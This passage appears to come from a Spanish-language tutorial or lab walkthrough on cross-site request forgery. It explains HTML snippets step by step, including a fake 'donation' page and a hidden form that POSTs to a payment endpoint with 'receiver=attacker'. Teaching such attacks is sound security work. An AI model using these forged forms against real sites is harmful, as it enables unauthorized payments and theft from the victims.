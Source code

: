 ```
            }, 0);
        };
    </script>
</body>
</html>
```

![Untitled](img/7.png)

- **Fachada de una página de donación:**
    
    ```html
    htmlCopiar código
    <!DOCTYPE html>
    <html lang="es">
    <head>
        <meta charset="UTF-8">
        <title>Comentario</title>
    </head>
    <body>
        <h1>Bienvenido</h1>
    
    ```
    
    Esta parte del código establece una estructura básica de una página HTML. Presenta un título ("Comentario") y un mensaje de bienvenida ("Bienvenido").
    
- **Formulario con datos falsificados:**
    
    ```html
    htmlCopiar código
        <form id="donationForm" method="POST" action="http://web.pagos/donate.php?amount=100&receiver=attacker">
            <input type="hidden" name="comment" value="<?php echo 'Este es un comentario'; ?>">
        </form>
    